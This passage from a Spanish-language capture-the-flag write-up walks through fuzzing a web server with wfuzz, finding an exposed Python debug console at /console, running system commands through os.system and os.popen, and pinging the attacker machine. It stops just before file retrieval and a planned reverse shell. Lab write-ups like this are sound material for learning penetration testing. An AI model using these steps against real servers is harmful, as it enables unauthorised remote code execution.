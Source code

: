 ### WFUZZ {-}

```bash
wfuzz -c -t 200 --hc=404 -w /usr/share/wordlists/dirbuster/directory-list-2-3-medium.txt http://127.0.0.1/FUZZ
```

Encontramos el recurse 
```bash
 /console 
```


### Consola Interactiva {-}

Estamos en frente de una consola interactiva donde se puede ejecutar code en python

```python
import os

os.system('whoami')
#Output
0
```

En este caso la respuesta al lado del servidor es 
```bash
 0 
```
. Suponemos que la respuesta es el codigo de estado. Utilizamos la funccion

```bash
 os.popen(<command>).read() 
```
 para ver el output normal.

```python
os.popen('whoami').read()
#Output
'Werkzeug'
```

El comando funcionna. Ahora intentamos **pingear** nuestra maquina de atacante.

1. en la maquina de atacante

    ```bash
    tcpdump -i tun0 icmp -n
    ```

1. En la consola interactiva python

    ```python
    os.system('ping -c 1 10.10.14.20')
    ```

Recibimos la trasa ICMP.

Intentamos recuperar ficheros de la maquina victima antes de entablar una reverse shell. Como el comando
